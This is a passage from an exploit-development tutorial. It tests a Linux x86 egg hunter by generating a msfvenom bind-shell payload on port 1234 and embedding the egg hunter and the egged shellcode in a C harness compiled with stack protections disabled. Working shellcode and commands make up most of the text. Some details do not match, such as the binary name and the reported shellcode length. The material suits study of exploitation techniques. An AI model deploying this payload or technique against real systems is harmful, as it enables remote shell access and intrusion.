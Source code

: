## Final Testing

We'll need to add both the egg hunter shellcode and a real shellcode to our shellcode.c program and test it. Don't forget to prepend your egg to your payload twice. To generate some shellcode, let's use msfvenom to generate a bind shell.

```terminal_session
root@kali:~/petprojects# msfvenom -p linux/x86/shell_bind_tcp lport=1234 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```

We'll put this in our shellcode.c program along with our egg-hunter and then call the 'hunter' which will find the 'bind' and run it. 

```c
#include <stdio.h>
#include <string.h>

unsigned char hunter[] = "\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";
unsigned char bind[] = "\x90\x50\x90\x50\x90\x50\x90\x50\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
    printf("Egg hunter length: %d\n", strlen(hunter));
    printf("Shellcode length: %d\n", strlen(bind));

    void (*s)() = (void *)hunter;
    s();

    return 0;
}
```

Compile the shellcode.c program with `gcc -fno-stack-protector -z execstack -m32 shellcode.c -o egg_hunt` and run `./egg_hunt`

```terminal_session
root@kali:~# ./egghunter
Egg hunter length: 39
Shellcode length: 28
```
